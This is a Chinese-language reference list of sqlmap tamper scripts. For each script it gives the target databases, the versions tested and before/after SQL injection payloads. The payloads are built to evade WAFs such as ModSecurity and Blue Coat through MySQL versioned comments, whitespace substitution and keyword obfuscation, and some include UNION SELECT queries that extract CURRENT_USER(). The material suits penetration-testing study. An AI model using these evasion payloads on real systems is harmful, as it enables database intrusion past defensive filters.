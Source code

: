 ### modsecurityversioned.py

适用数据库：MySQL
测试通过数据库：MySQL 5.0
作用：过滤空格，使用mysql内联注释的方式进行注入
使用脚本前：`tamper('1 AND 2>1--')`
使用脚本后：`1 /*!30874AND 2>1*/--`

### space2mysqlblank.py

适用数据库：MySQL
测试通过数据库：MySQL 5.1
作用：将空格替换为其他空格符号`('%09', '%0A', '%0C', '%0D', '%0B')`
使用脚本前：`tamper('SELECT id FROM users')`
使用脚本后：`SELECT%0Bid%0DFROM%0Cusers`

### modsecurityzeroversioned.py

适用数据库：MySQL
测试通过数据库：MySQL 5.0
作用：使用内联注释方式`（/*!00000*/）`进行注入
使用脚本前：`tamper('1 AND 2>1--')`
使用脚本后：`1 /*!00000AND 2>1*/--`

### space2mysqldash.py

适用数据库：MySQL、MSSQL
作用：将空格替换为 `--` ，并追随一个换行符
使用脚本前：`tamper('1 AND 9227=9227')`
使用脚本后：`1--%0AAND--%0A9227=9227`

### bluecoat.py

适用数据库：Blue Coat SGOS
测试通过数据库：MySQL 5.1,、SGOS
作用：在sql语句之后用有效的随机空白字符替换空格符，随后用`LIKE`替换`=`
使用脚本前：`tamper('SELECT id FROM users where id = 1')`
使用脚本后：`SELECT%09id FROM users where id LIKE 1`

### versionedkeywords.py

适用数据库：MySQL
测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11
作用：注释绕过
使用脚本前：`tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')`
使用脚本后：`1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#`

### halfversionedmorekeywords.py

适用数据库：MySQL < 5.1
测试通过数据库：MySQL 4.0.18/5.0.22
作用：在每个关键字前添加mysql版本注释
使用脚本前：`tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")`
使用脚本后：`value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa`
